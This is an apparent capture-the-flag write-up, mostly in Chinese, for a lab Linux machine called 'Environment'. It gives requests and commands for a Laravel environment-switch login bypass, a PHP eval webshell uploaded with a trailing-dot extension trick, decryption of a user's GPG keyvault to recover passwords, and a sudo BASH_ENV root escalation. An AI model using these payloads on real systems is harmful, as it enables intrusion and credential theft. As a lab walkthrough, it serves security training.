





## Box Info

| OS | Linux |
| --- | --- |
| Difficulty | Medium |

## Nmap

```
[root@kali] /home/kali/Environment  
❯ nmap Environment.htb -sV -A

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.2p1 Debian 2+deb12u5 (protocol 2.0)
| ssh-hostkey: 
|   256 5c:02:33:95:ef:44:e2:80:cd:3a:96:02:23:f1:92:64 (ECDSA)
|_  256 1f:3d:c2:19:55:28:a1:77:59:51:48:10:c4:4b:74:ab (ED25519)
80/tcp open  http    nginx 1.22.1
|_http-title: Save the Environment | environment.htb
|_http-server-header: nginx/1.22.1
```

## Dirsearch

```
[root@kali] /home/kali/Environment  
❯ dirsearch -u http://environment.htb 

  _|. _ _  _  _  _ _|_    v0.4.3                                                                                                                
 (_||| _) (/_(_|| (_| )                                                                                                                         
                                                                                                                                                
Extensions: php, asp, aspx, jsp, html, htm | HTTP method: GET | Threads: 25 | Wordlist size: 12289

Target: http://environment.htb/

[07:23:08] Scanning:                                                                                                                            
[07:23:23] 403 - 555B - /admin/.config                                    
[07:23:23] 403 - 555B - /admin/.htaccess
[07:23:39] 403 - 555B - /administrator/.htaccess                          
[07:23:43] 403 - 555B - /admpar/.ftppass                                  
[07:23:43] 403 - 555B - /admrev/.ftppass
[07:23:46] 403 - 555B - /app/.htaccess                                    
[07:23:52] 403 - 555B - /bitrix/.settings.bak                             
[07:23:52] 403 - 555B - /bitrix/.settings
[07:23:52] 403 - 555B - /bitrix/.settings.php.bak                         
[07:23:54] 301 - 169B - /build  ->  http://environment.htb/build/         
[07:23:54] 403 - 555B - /build/                                           
[07:24:15] 403 - 555B - /ext/.deps                                        
[07:24:15] 200 - 0B - /favicon.ico                                      
[07:24:26] 200 - 4KB - /index.php                                        
[07:24:26] 200 - 2KB - /index.php/login/                                 
[07:24:31] 403 - 555B - /lib/flex/varien/.project                         
[07:24:31] 403 - 555B - /lib/flex/uploader/.actionScriptProperties
[07:24:31] 403 - 555B - /lib/flex/varien/.flexLibProperties
[07:24:31] 403 - 555B - /lib/flex/varien/.actionScriptProperties
[07:24:31] 403 - 555B - /lib/flex/uploader/.flexProperties
[07:24:31] 403 - 555B - /lib/flex/uploader/.project
[07:24:31] 403 - 555B - /lib/flex/uploader/.settings
[07:24:31] 403 - 555B - /lib/flex/varien/.settings
[07:24:34] 200 - 2KB - /login                                            
[07:24:34] 200 - 2KB - /login/                                           
[07:24:35] 302 - 358B - /logout/  ->  http://environment.htb/login        
[07:24:35] 302 - 358B - /logout  ->  http://environment.htb/login         
[07:24:36] 403 - 555B - /mailer/.env                                      
[07:25:01] 403 - 555B - /resources/sass/.sass-cache/                      
[07:25:01] 403 - 555B - /resources/.arch-internal-preview.css
[07:25:02] 200 - 24B - /robots.txt                                       
[07:25:12] 301 - 169B - /storage  ->  http://environment.htb/storage/     
[07:25:12] 403 - 555B - /storage/
[07:25:19] 403 - 555B - /twitter/.env                                     
[07:25:21] 405 - 244KB - /upload/                                          
[07:25:22] 405 - 244KB - /upload                                           
[07:25:24] 403 - 555B - /vendor/                                          
                                                                             
Task Completed    
```

## Env Bypass

进入登录页，进行抓包，可以看到直接带出了报错信息

```
POST /login HTTP/1.1
Host: environment.htb

_token=JNCSO9ry4XvsQhVOhorOAtASyt4bQrqZAvy9paUx&email=a%40a.c&password=123
```


并且这里注意一下逻辑，并没有写`else`的情况

```
 if($remember == 'False') {
        $keep_loggedin = False;
    } elseif ($remember == 'True') {
        $keep_loggedin = True;
    }
```

因此尝试给他随便赋一个值

```
POST /login HTTP/1.1
Host: environment.htb

_token=JNCSO9ry4XvsQhVOhorOAtASyt4bQrqZAvy9paUx&email=a%40a.c&password=123&remember=111
```



这段代码的意思是在 **Laravel** 中，如果当前环境是 `"preprod"`（预生产环境），就自动登录为 `user_id = 1` 的用户，并跳转到管理后台页面。

尝试搜索一下如何绕过👇



- [Environment manipulation via query string in Laravel](https://www.cybersecurity-help.cz/vdb/SB20241112127)

- [Nyamort/CVE-2024-52301](https://github.com/Nyamort/CVE-2024-52301)

只需要传入`GET`参数即可绕过

```
POST /login?--env=preprod HTTP/1.1
Host: environment.htb

_token=JNCSO9ry4XvsQhVOhorOAtASyt4bQrqZAvy9paUx&email=a%40a.c&password=123&remember=True
```

## File Upload

来到`profile`进行上传木马



```
-----------------------------60487661513624885101007722530
Content-Disposition: form-data; name="upload"; filename="shell.phtml"
Content-Type: image/jpg

GIF89a
<?php eval($_GET["cmd"]);?>

-----------------------------60487661513624885101007722530--
```

成功绕过👇



但是呢，通过`url`访问只会把文件下载下来，这里需要在`php`后面再加一个点才能绕过

```
-----------------------------168307501742120550952749914248
Content-Disposition: form-data; name="upload"; filename="123.php."
Content-Type: image/jpg

GIF89a
<?php eval($_GET["cmd"]);?>

-----------------------------168307501742120550952749914248--
```



可以直接读取到`user.txt`

```
www-data@environment:/home/hish$ ls -al
total 36
drwxr-xr-x 5 hish hish 4096 Apr 11 00:51 .
drwxr-xr-x 3 root root 4096 Jan 12 11:51 ..
lrwxrwxrwx 1 root root    9 Apr  7 19:29 .bash_history -> /dev/null
-rw-r--r-- 1 hish hish  220 Jan  6 21:28 .bash_logout
-rw-r--r-- 1 hish hish 3526 Jan 12 14:42 .bashrc
drwxr-xr-x 4 hish hish 4096 May  7 21:48 .gnupg
drwxr-xr-x 3 hish hish 4096 Jan  6 21:43 .local
-rw-r--r-- 1 hish hish  807 Jan  6 21:28 .profile
drwxr-xr-x 2 hish hish 4096 Jan 12 11:49 backup
-rw-r--r-- 1 root hish   33 May  7 21:46 user.txt
www-data@environment:/home/hish$ cat user.txt 
985363b5exxxxxxxxxxx
```

## Own hish

查看到`backup`目录里有一个`gpg`文件

```
www-data@environment:/home/hish/backup$ ls -al
total 12
drwxr-xr-x 2 hish hish 4096 Jan 12 11:49 .
drwxr-xr-x 5 hish hish 4096 Apr 11 00:51 ..
-rw-r--r-- 1 hish hish  430 May  7 21:48 keyvault.gpg
```

由于当前`www-data`用户无法在`/var/www`目录下创建文件，因此指定目录

```
# 1. 拷贝 hish 用户的密钥目录
cp -r /home/hish/.gnupg /tmp/mygnupg

# 2. 设置权限
chmod -R 700 /tmp/mygnupg

# 3. 确认是否存在私钥
gpg --homedir /tmp/mygnupg --list-secret-keys

# 4. 解密 keyvault.gpg
gpg --homedir /tmp/mygnupg --output /tmp/message.txt --decrypt /home/hish/backup/keyvault.gpg
```

获取到**message.txt**，其中就有密码

```
www-data@environment:/tmp$ cat message.txt 
PAYPAL.COM -> Ihaves0meMon$yhere123
ENVIRONMENT.HTB -> marineSPm@ster!!    // password !!!
FACEBOOK.COM -> summerSunnyB3ACH!!
```


## Root

查看`sudo -l`

```
hish@environment:~$ sudo -l
[sudo] password for hish: 
Matching Defaults entries for hish on environment:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, env_keep+="ENV BASH_ENV", use_pty

User hish may run the following commands on environment:
    (ALL) /usr/bin/systeminfo
```

其中可以看到`env_keep`保留了`ENV`和`BASH_ENV`两个环境变量因此可以用于绕过

```
hish@environment:~$ echo 'bash -p' > exp.sh
hish@environment:~$ chmod +x exp.sh 
hish@environment:~$ sudo BASH_ENV=./exp.sh /usr/bin/systeminfo 
root@environment:/home/hish# id
uid=0(root) gid=0(root) groups=0(root)
root@environment:/home/hish# cat /root/root.txt 
943dd249259dxxxxxxxxxxxx
root@environment:/home/hish# 
```

## Summary

`User`: 登录**报错信息**中泄露出源码，可以通过设置**环境变量**进行绕过登录。后台上传图片马，后缀用**点**绕过获得`www-data`权限，`backup`目录中泄露了`gpg`文件，并且密钥可读，可以直接解密到`hish`的密码。

`Root`: `sudo`环境变量引入。

这个机器如其名，和环境有关。
